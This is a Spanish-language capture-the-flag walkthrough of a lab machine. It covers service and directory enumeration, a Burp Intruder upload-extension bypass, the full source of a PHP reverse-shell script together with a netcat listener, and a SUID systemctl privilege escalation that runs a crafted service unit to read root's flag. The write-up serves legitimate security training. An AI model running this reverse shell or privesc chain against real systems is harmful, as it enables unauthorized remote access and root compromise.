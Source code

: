 # Basic Pentesting — Writeup

## TL;DR

Se encontraron servicios FTP, SSH, Samba y un servicio web con un directorio de subida (/internal). Subiendo un webshell .phtml se consiguió una reverse shell como www-data. Desde esa cuenta se escaló privilegios aprovechando /bin/systemctl con permiso SUID para ejecutar una unidad systemd que leyó /root/root.txt a /tmp/flag.

---

## Enumeración (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comentario:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Resultado**
```bash
# Nmap 7.95 scan initiated Sat Sep 27 16:40:06 2025 as: /usr/lib/nmap/nmap --privileged -sV -sC --open -oN scan.txt $IP
Nmap scan report for $IP
Host is up (0.32s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.5
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 19:78:f4:6e:d8:11:72:e7:ba:60:0c:d2:ba:c9:a3:e7 (RSA)
|   256 e1:6e:3e:95:e0:bd:78:db:e9:aa:74:44:67:f0:a6:8e (ECDSA)
|_  256 8e:8d:24:7f:0d:77:52:20:40:2b:9e:ec:b3:e9:50:a8 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-09-27T20:40:34
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 27 16:40:48 2025 -- 1 IP address (1 host up) scanned in 42.04 seconds
```
**Resumen**

* 21/tcp open ftp (vsftpd/3.0.5)
* 22/tcp open  ssh (OpenSSH 8.2p1)
* 139/445/tcp open Samba (smbd)
* 3128/tcp open http-proxy (Squid/4.10)
* 3333/tcp open  http (Apache/2.4.41)

---

## Enumeración de directorios web (Gobuster)

```bash
gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

**Comentario:** `-u` url target; `-w` ruta de wordlist.

**Resultado**
```bash
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://$IP:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://$IP:3333/images/]                                                                   
/css                  (Status: 301) [Size: 319] [--> http://$IP:3333/css/]                                                                      
/js                   (Status: 301) [Size: 318] [--> http://$IP:3333/js/]                                                                       
/internal             (Status: 301) [Size: 324] [--> http://$IP:3333/internal/] 
```
**Resultado relevante**

* `/internal`, directorio web para subir archivos.
  
---

## Burp Suite

**Petición POST**

Interceptamos la petición POST al subir un archivo a la web con el proxy de BurpSuite, la enviamos al Intruder y marcamos la extensión.
```bash
POST /internal/index.php HTTP/1.1
Host: $IP:3333
Content-Length: 291
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://$IP:3333
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJ8PkprBlb27KbdYV
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://$IP:3333/internal/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="file"; filename="test.§php§"
Content-Type: application/x-php

test

------WebKitFormBoundaryJ8PkprBlb27KbdYV
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundaryJ8PkprBlb27KbdYV--
```

**Identificar extensión permitida**

Aplicamos una wordlist de extensiones (phpext.txt) como payload para identificar la correcta:
<details>
	<summary><i>phpext.txt</i></summary>
		
		.php
		.php3
		.php4
		.php5
		.phtml
	
</details>

**Resultado**
* Extensión permitida: `.phtml`

---

## Reverse Shell

**Script Reverse Shell**
<details><summary><i>php-reverse-shell.phtml</i></summary>

```bash	
	<?php
	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '127.0.0.1';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;
	
	//
	// Daemonise ourself if possible to avoid zombies later
	//
	
	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}
	
		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}
	
		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}
	
	// Change to a safe directory
	chdir("/");
	
	// Remove any umask we inherited
	umask(0);
	
	//
	// Do the reverse shell...
	//
	
	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}
	
	// Spawn shell process
	$descriptorspec = array(
	   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
	   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
	   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
	);
	
	$process = proc_open($shell, $descriptorspec, $pipes);
	
	if (!is_resource($process)) {
		printit("ERROR: Can't spawn shell");
		exit(1);
	}
	
	// Set everything to non-blocking
	// Reason: Occsionally reads will block, even though stream_select tells us they won't
	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);
	
	printit("Successfully opened reverse shell to $ip:$port");
	
	while (1) {
		// Check for end of TCP connection
		if (feof($sock)) {
			printit("ERROR: Shell connection terminated");
			break;
		}
	
		// Check for end of STDOUT
		if (feof($pipes[1])) {
			printit("ERROR: Shell process terminated");
			break;
		}
	
		// Wait until a command is end down $sock, or some
		// command output is available on STDOUT or STDERR
		$read_a = array($sock, $pipes[1], $pipes[2]);
		$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	
		// If we can read from the TCP socket, send
		// data to process's STDIN
		if (in_array($sock, $read_a)) {
			if ($debug) printit("SOCK READ");
			$input = fread($sock, $chunk_size);
			if ($debug) printit("SOCK: $input");
			fwrite($pipes[0], $input);
		}
	
		// If we can read from the process's STDOUT
		// send data down tcp connection
		if (in_array($pipes[1], $read_a)) {
			if ($debug) printit("STDOUT READ");
			$input = fread($pipes[1], $chunk_size);
			if ($debug) printit("STDOUT: $input");
			fwrite($sock, $input);
		}
	
		// If we can read from the process's STDERR
		// send data down tcp connection
		if (in_array($pipes[2], $read_a)) {
			if ($debug) printit("STDERR READ");
			$input = fread($pipes[2], $chunk_size);
			if ($debug) printit("STDERR: $input");
			fwrite($sock, $input);
		}
	}
	
	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);
	
	// Like print, but does nothing if we've daemonised ourself
	// (I can't figure out how to redirect STDOUT like a proper daemon)
	function printit ($string) {
		if (!$daemon) {
			print "$string\n";
		}
	}
	
	?>
```

</details>

**Subida reverse shell php**
```bash
	http://$IP:3333/internal/
```	

**Ejecución Payload**
```bash
	http://$IP:3333/internal/uploads/php-reverse-shell.phtml
```

**Listen Port**
```bash
	nc -lvnp 4444             
	listening on [any] 4444 ...
	connect to [$IP] from (UNKNOWN) [$IP] 45390
	Linux $IP 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
	 14:46:58 up 3 min,  0 users,  load average: 0.82, 0.38, 0.14
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	$ whoami
	www-data
```

**Upgrade Shell**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Escalada Privilegios

**Búsqueda binarios SUID**
```bash
 find / -user root -perm -4000 -exec ls -ldb {} \;
```
**Exploit systemctl**

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
**Leer Flag**
```bash
	$ cd /tmp/flag
```
